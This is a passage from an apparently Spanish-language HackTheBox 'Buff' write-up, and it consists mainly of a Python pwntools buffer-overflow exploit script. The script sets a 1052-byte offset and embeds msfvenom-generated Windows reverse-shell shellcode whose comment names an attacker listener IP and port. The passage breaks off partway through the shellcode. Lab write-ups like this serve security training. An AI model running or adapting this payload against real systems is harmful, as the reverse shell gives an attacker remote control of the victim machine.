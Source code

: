 ![](/images/HTB/Buff/87-bof-exploit-local.png)

**¡Y Funciona correctamente!**

Para la explotación contra la máquina de **HTB** deberemos generar nuevamente el shellcode indicando la IP de la VPN como ```LHOST```. El script final quedaría de la siguiente forma.

```python
#!/usr/bin/python3
from pwn import *

host = "127.0.0.1"
port = 8888
offset = 1052
junk = b"A"*offset

# msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.14.116 LPORT=443 EXITFUNC=thread -b '\x00' -f python -v shellcode
shellcode =  b""
shellcode += b"\xdd\xc2\xd9\x74\x24\xf4\xb8\xf7\xb9\x52\xb0"
shellcode += b"\x5a\x29\xc9\xb1\x52\x83\xc2\x04\x31\x42\x13"
shellcode += b"\x03\xb5\xaa\xb0\x45\xc5\x25\xb6\xa6\x35\xb6"
shellcode += b"\xd7\x2f\xd0\x87\xd7\x54\x91\xb8\xe7\x1f\xf7"
shellcode += b"\x34\x83\x72\xe3\xcf\xe1\x5a\x04\x67\x4f\xbd"
shellcode += b"\x2b\x78\xfc\xfd\x2a\xfa\xff\xd1\x8c\xc3\xcf"
shellcode += b"\x27\xcd\x04\x2d\xc5\x9f\xdd\x39\x78\x0f\x69"
shellcode += b"\x77\x41\xa4\x21\x99\xc1\x59\xf1\x98\xe0\xcc"
shellcode += b"\x89\xc2\x22\xef\x5e\x7f\x6b\xf7\x83\xba\x25"
shellcode += b"\x8c\x70\x30\xb4\x44\x49\xb9\x1b\xa9\x65\x48"
shellcode += b"\x65\xee\x42\xb3\x10\x06\xb1\x4e\x23\xdd\xcb"
shellcode += b"\x94\xa6\xc5\x6c\x5e\x10\x21\x8c\xb3\xc7\xa2"
shellcode += b"\x82\x78\x83\xec\x86\x7f\x40\x87\xb3\xf4\x67"
shellcode += b"\x47\x32\x4e\x4c\x43\x1e\x14\xed\xd2\xfa\xfb"
shellcode += b"\x12\x04\xa5\xa4\xb6\x4f\x48\xb0\xca\x12\x05"
shellcode += b"\x75\xe7\xac\xd5\x11\x70\xdf\xe7\xbe\x2a\x77"
shellcode += b"\x44\x36\xf5\x80\xab\x6d\x41\x1e\x52\x8e\xb2"
shellcode += b"\x37\x91\xda\xe2\x2f\x30\x63\x69\xaf\xbd\xb6"
shellcode += b"\x3e\xff\x11\x69\xff\xaf\xd1\xd9\x97\xa5\xdd"
shellcode += b"\x06\x87\xc6\x37\x2f\x22\x3d\xd0\x5a\xb9\x33"
shellcode += b"\x54\x33\xbf\x4b\x95\x78\x36\xad\xff\x6e\x1f"
shellcode += b"\x66\x68\x16\x3a\xfc\x09\xd7\x90\x79\x09\x53"
shellcode += b"\x17\x7e\xc4\x94\x52\x6c\xb1\x54\x29\xce\x14"
```